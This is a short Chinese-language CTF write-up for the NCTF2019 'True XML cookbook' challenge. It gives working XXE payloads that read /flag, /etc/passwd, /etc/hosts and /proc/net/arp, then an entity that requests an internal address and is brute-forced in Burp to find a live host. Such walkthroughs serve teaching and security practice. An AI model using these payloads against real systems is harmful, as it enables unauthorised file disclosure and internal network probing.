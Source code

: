 # \[NCTF2019]True XML cookbook

## \[NCTF2019]True XML cookbook

## 考点



## wp

直接抓包进行XXE

```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```

提示加载失败，把文件换成`/etc/passwd`就成功加载了。再去读`/etc/hosts`

![](<../.gitbook/assets/image (24) (1) (1) (1) (1).png>)

再去读`/proc/net/arp`

![](<../.gitbook/assets/image (19) (1) (1) (1).png>)

看到内网有存活的主机，尝试访问，提示失败

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "http://169.254.1.1/">
  ]>
<user><username>&admin;</username><password>123546</password></user>
```

放在burp里面爆破一下最后一位地址即可
